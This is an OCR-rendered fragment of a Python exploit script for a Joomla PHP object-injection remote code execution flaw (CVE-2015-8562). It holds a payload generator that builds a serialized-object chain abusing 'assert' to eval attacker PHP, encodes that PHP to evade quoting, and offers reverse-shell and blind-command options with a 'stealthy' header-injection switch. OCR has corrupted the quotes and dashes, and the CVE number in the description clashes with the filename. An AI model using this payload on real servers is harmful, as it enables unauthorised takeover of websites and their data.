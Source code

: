 ```
response = requests.get(url, headers=headers,cookies=cookies, proxies=proxyDict, verify=False)

return response

except requests.exceptions.MissingSchema:

print “\033[1;31;10m\n[!] Missing http:// or https:// from Target URL\n\033[1;37;10m”

sys.exit(1)

def php_str_noquotes(data):

#Convert string to chr(xx).chr(xx) for use in php

encoded = “”

for char in data:

encoded += “chr({0}).”.format(ord(char))

```
return encoded[:-1] 
```

def generate_payload(php_payload):

php_payload = “eval({0})”.format(php_str_noquotes(php_payload))

terminate = ‘\xf0\xfd\xfd\xfd’;

exploit_template = r’’’}__test|O:21:“JDatabaseDriverMysqli”:3:{s:2:“fc”;O:17:“JSimplepieFactory”:0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:“SimplePie”:5:{s:8:“sanitize”;O:20:“JDatabaseDriverMysql”:0:{}s:8:“feed_url”;’’’

injected_payload = “{};JFactory::getConfig();exit”.format(php_payload)

exploit_template += r’’‘s:{0}:"{1}"’’’.format(str(len(injected_payload)), injected_payload)

exploit_template += r’’’;s:19:“cache_name_function”;s:6:“assert”;s:5:“cache”;b:1;s:11:“cache_class”;O:20:“JDatabaseDriverMysql”:0:{}}i:1;s:4:“init”;}}s:13:"\0\0\0connection";b:1;}’’’ + terminate

```
return exploit_template 
```

def main():

parser = argparse.ArgumentParser(prog=‘joomla-cve-2015-8562.py’, description=’\033[1;37;10mJoomla Object Injection RCE CVE-2015-8652’)

parser.add_argument(’-t’, dest=‘RHOST’, required=True, help=’\033[1;37;10mRemote Target Joomla Server (http://<target ip>)’)

parser.add_argument(’-l’, dest=‘LHOST’, help=’\033[1;37;10mLocal IP for Reverse Shell’)

parser.add_argument(’-p’, dest=‘LPORT’, help=’\033[1;37;10mLocal Port for Reverse Shell’)

parser.add_argument(’–cmd’, dest=‘cmd’, action=‘store_true’, help=’\033[1;37;10mDrop into blind RCE’)

parser.add_argument(’–u’, dest=‘method’, action=‘store_true’, help=’\033[1;37;10mSwitch from X-Forwarded-For to User-Agent (less stealthy)’)

```